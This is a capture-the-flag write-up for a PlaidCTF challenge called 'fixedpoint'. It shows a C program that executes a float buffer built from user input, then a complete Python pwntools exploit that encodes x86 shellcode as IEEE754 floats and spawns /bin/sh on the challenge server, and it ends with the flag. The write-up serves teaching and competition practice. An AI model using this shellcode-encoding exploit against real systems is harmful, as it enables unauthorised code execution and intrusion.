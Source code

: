 ## Challenge Description
IEEE754 is useful when your values go from -inf to +inf, but really, fixed point is all you need. 
But if you want, you could grab this too. 
Running at fixedpoint.pwning.xxx:7777

## Challenge Code
```C
#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>

int main(int argc, char** argv) {
  float* array = mmap(0, sizeof(float)*8192, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
  int i;
  int temp;
  float ftemp;

  for (i = 0; i < 8192; i++) {
    if (!scanf("%d", &temp)) break;
    array[i] = ((float)temp)/1337.0;
  }

  write(1, "here we go\n", 11);
  (*(void(*)())array)();
}
```

## Solution
It's easy to see that we need to find numbers that their IEEE754 representation divided by 1337 produces valid shellcode. 
For those not familiar with IEEE754, it's basically a standard to represent float point numbers in computers.

In this chall I perceived that I could only control reliably the inner bytes of a 4byte value, so I needed to construct 
2 bytes shellcode and 2 bytes NOP, in this format 0xNSSN (where N is nop and S is part of real shellcode). 

```python
import struct
import pwnlib
import time


def get_int(s):
  a = struct.unpack('<f', s)[0]* 1337
  return struct.unpack('I', struct.pack('<I', a))[0]


target = pwnlib.tubes.remote.remote('fixedpoint.pwning.xxx', 7777, ssl=False)

print "Sending IEEE754 shellcode..."
time.sleep(1)

for i in range(3):
  target.sendline(str(get_int('\x00\x00\x00\x00')))

target.sendline(str(get_int('\x99\x89\xc3\x47')))     # mov ebx, eax
target.sendline(str(get_int('\x41\x44\x44\x44')))     # nop/align

for c in '/bin/sh\x00':
  target.sendline(str(get_int('\x99\xb0'+c+'\x47')))  # mov al, c
  target.sendline(str(get_int('\x57\x89\x03\x43')))   # mov [ebx], eax; inc ebx
  
for i in range(8):
  target.sendline(str(get_int('\x57\x4b\x41\x47')))   # dec ebx
  
target.sendline(str(get_int('\x99\x31\xc0\x47')))     # xor eax, eax
target.sendline(str(get_int('\x99\x31\xc9\x47')))     # xor ecx, ecx
target.sendline(str(get_int('\x99\x31\xd2\x47')))     # xor edx, edx
target.sendline(str(get_int('\x99\xb0\x0b\x47')))     # mov al, 0xb
target.sendline(str(get_int('\x99\xcd\x80\x47')))     # int 0x80

target.sendline('c')
target.interactive()
```

**PCTF{why_isnt_IEEE_754_IEEE_7.54e2}**


